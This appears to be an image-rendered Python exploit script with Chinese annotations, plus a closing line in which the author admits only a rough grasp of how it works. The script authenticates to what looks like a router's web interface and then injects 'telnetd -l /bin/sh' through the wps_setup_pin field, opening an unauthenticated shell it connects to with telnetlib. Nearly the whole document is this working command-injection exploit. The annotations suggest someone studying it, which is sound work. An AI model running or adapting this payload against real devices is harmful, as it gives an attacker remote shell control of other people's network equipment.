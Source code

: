 ```python
#拼接HTTPheader


headers = {
    "Origin": "http://%s/" % HOST,  #Origin标头标识导致用户代理发起HTTP请求的安全上下文.主要是用来说明最初请求是从哪里发起的,只用于Post请求
    "Accept-Encoding": "gzip, deflate", #声明浏览器支持的编码类型
    "Accept-Language": "en-US,en;q=0.9,es;q=0.8", #声明理解的自然语言
    "User-Agent": "Mozilla/5.0", #UA 用户代理
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",  #内容类型
    "Accept": "application/json, text/javascript, */*; q=0.01", #请求头用来告知客户端可以处理的内容类型
    "Referer": "http://%s/" % HOST, #referer字段表示从哪里链接到当前网页
    "X-Requested-With": "XMLHttpRequest", #可以用来判断客户端的请求是Ajax请求还是其他请求。
    "Connection": "keep-alive",  #当client和server通信时对于长链接如何进行处理
    "DNT": "1",   #要求服务器程序不要跟踪记录用户信息
}


password = hashlib.md5(PASSWORD.encode("utf-8")).hexdigest().upper() # 大写MD5
encoded = "%s:%s" % (password, COOKIE)  #格式化 密码和cookite
encoded = hashlib.md5(encoded.encode("utf-8")).hexdigest().upper()  #再次大写MD5 

#封装基础数据头 
#operation=write&option=connect&wps_setup_pin=11480723%3Btelnetd+-l+%2Fbin%2Fsh

data = [("operation", "login"), ("encoded", encoded), ("nonce", COOKIE)]


# Payload
data_inject = [
    ("operation", "write"),
    ("option", "connect"),
    ("wps_setup_pin", "11480723;telnetd -l /bin/sh"), #命令执行，telnetd  -l /bin/sh 开启telnet服务
]


with requests.Session() as s:
    response = s.post(
        "http://%s/data/login.json" % HOST, headers=headers, cookies=cookies, data=data
    ) #登录模块，进行验证登录
    print(response.text)

    # An authorised request. 正常合法请求
    r = s.get("http://%s" % HOST, headers=headers, cookies=cookies)
    # print (r.text)
    
    #对该页面进行 setup 文件设置
    r = s.post(
        "http://%s/data/wps.setup.json" % HOST,
        headers=headers,
        cookies=cookies,
        data=data_inject,
    )

tn = telnetlib.Telnet(HOST)
tn.interact()    #interact 启动子进程，进行控制，可以与telnet ssh 等进行 命令交互
```
-------明白大概是针对 命令行进行url 进行命令注入，但是确切的原理点不明确
